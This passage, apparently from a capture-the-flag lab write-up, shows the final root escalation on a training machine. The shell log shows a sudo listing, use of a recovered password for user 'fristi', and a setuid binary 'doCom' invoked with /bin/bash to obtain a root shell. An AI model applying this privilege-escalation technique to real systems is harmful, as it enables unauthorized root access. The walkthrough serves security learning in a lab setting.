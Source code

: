 Still no root privileges, but at this point I had to be close. Turned out that I was:

```sh
bash-4.1$ sudo -l
sudo -l
Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
bash-4.1$ sudo /var/fristigod/.secret_admin_stuff/doCom
sudo /var/fristigod/.secret_admin_stuff/doCom
Sorry, user fristigod is not allowed to execute '/var/fristigod/.secret_admin_stuff/doCom' as root on localhost.localdomain.
bash-4.1$ cd /var/fristigod
cd /var/fristigod
bash-4.1$ ls -al
ls -al
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 root      root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod  864 Nov 25  2015 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff
bash-4.1$ cd .secret_admin_stuff
cd .secret_admin_stuff
bash-4.1$ ls
ls
doCom
bash-4.1$ file doCom
file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
bash-4.1$ ./doCom
./doCom
Nice try, but wrong user ;)
bash-4.1$ sudo -u fristi ./doCom
sudo -u fristi ./doCom
[sudo] password for fristigod: LetThereBeFristi!
Usage: ./program_name terminal_command ...
bash-4.1$ whoami
whoami
fristigod
bash-4.1$ sudo -u fristi ./doCom /bin/bash
sudo -u fristi ./doCom /bin/bash
bash-4.1# whoami
whoami
root
```
